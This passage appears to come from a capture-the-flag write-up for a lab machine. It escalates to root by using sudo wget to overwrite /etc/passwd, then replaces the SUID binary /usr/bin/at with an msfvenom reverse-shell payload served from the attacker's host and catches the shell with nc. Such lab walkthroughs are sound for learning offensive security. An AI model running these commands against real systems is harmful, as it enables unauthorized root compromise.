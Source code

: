 ```bash
# run on kali
echo "bubba:$(openssl passwd -1 -salt bubba gump):0:0:root:/root:/bin/bash" >> passwd
sudo python3 -m http.server 80
# run on target as sammy
sudo /usr/bin/wget -O /etc/passwd 10.10.14.25/passwd
su bubba
```

However, this gives a `su: Unknown id: bubba` error? Googling this error does not help... Instead of adding a new user to `/etc/passwd`, just replace the password for `root` with the same known passwords for `sammy` or `sunny` in `/etc/shadow` by using `/backup/shadow.backup` as a template.

However, this is boring (annoyed the basic `/etc/passwd` did not work). Instead, use the `wget` to overwrite a SUID binary on the target and use it to get a dedicated shell. First, find these binaries on the target:

```bash
find / -perm -u=s -type f -exec ls -lad {} \; 2>/dev/null
```

From this output, `/usr/bin/at` will be used below:

```bash
# on kali, stage a payload that will take advantage of SUID with a SunOS payload
msfvenom -p solaris/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         PrependSetuid=true \
         -f elf \
         -o bubba.elf
sudo python3 -m http.server 80
nc -nvlp 6969
# on the target, download the payload and trigger it
sudo /usr/bin/wget -O /usr/bin/at 10.10.14.25/bubba.elf
/usr/bin/at
```

This returns a `root` shell:

![root1](./sunday/root1.png)


